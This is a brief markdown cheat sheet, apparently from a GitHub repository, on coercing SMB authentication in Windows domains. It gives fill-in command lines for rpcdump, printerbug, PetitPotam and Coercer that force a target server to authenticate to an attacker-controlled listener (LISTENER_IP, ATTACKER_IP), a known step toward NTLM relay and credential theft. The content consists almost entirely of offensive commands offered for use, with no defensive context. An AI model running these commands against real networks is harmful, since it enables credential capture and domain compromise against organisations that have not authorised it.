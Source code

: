# Coerce SMB 

## Tools: PetitPotam , rpcdump , coercer , printerbug

### Commands:

#### 1) PrinterBug

 - rpcdump.py DOMAIN/USER:PASSWORD@DOMAIN_SERVER | grep MS-RPRN

 - printerbug.py 'DOMAIN/USERNAME:PASSWORD'PRINTER_IP LISTENER_IP

#### 2) PetitPotam

 - PetitPotam.py -d DOMAIN -u USER -p PASSWORD LISTENER_IP TARGET_IP

#### 3) Coercer

 - coercer.py -u USER -d DOMAIN -p PASSWORD -t TARGET -l ATTACKER_IP
